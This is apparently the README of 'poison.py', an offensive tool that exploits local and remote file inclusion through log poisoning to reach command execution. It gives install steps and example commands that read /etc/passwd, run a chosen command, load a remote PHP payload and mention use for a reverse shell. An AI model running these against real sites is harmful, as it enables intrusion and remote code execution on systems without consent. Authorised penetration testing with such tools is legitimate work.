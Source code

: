 # poison.py
Fast tool to search accessible log's files for LFI/RFI vulnerabilities, and automatic escalation to shell
all the wordlists and payloads is included

## Installation:
```
git clone https://github.com/coldt3ars/poison
cd poison
pip install -r requirements.txt
python3 poison.py
```
# Exploitation
## Example usage (LFI):
![LFI](https://github.com/user-attachments/assets/bd3a864f-03ea-42dd-a5f5-8d10e803cf33)

```
./poison.py -u 'http://localhost/index.php?page=/etc/passwd' -e 'id' -w src/small.txt -p src/payloads.txt
```
_____________________________________________________________________________________________
```
-u 'http://localhost/index.php?page=/etc/passwd' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-w src/small.txt # wordlist using the search for available log's file
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

## Example usage (RFI):
![RFI](https://github.com/user-attachments/assets/1d6b7044-5ae5-4a44-aa94-33f3513d49a2)
```
./poison.py -u 'http://localhost/index.php?page=/etc/passwd' -w src/big.txt -p src/payloads.txt --rfi --lfile src/script.php --lhost 127.0.0.1 --lport 12345 -e ''
```
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--lport 12345 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/script.php' # payload which include in the request during the RFI
```

```
-e '' # no-op function
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program
